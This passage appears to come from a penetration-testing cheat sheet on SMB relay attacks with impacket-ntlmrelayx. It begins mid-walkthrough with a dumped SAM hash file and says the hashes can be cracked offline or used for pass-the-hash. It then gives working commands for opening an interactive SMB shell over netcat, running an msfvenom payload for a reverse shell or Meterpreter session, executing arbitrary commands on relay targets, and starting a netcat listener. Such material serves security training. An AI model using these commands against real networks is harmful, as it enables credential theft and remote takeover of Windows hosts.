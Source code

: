 Step 5: Upon success, you will see that a SAM file has been dumped

* SAM is a hash for a password
* We can take these offline and crack them
* Pass-The-Hash is available too

### Interactive SMB Shell

Start Interactive Session:

```
impacket-ntlmrelayx -tf targets.txt -smb2support -i

[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
```

Connect to Interactive Session:&#x20;

```
nc 127.0.0.1 11000
Type help for a list of commands
# help

# shares
ADMIN$
C$
IPC$
Share

# use C$
# ls

# use ADMIN$
# ls
```

### Execute a Reverse Shell or Meterpreter Listener

* Must generate payload with MSFVENOM!
* Get a shell in Metasploit/multihandler

```
impacket-ntlmrelayx -tf targets.txt -smb2support -e payload.exe
```

Execute a command:

<pre><code><strong>impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"
</strong></code></pre>

You can also use a PowerShell Reverse Shell!

Start nc listener:

```
nc -lnvp 80
```
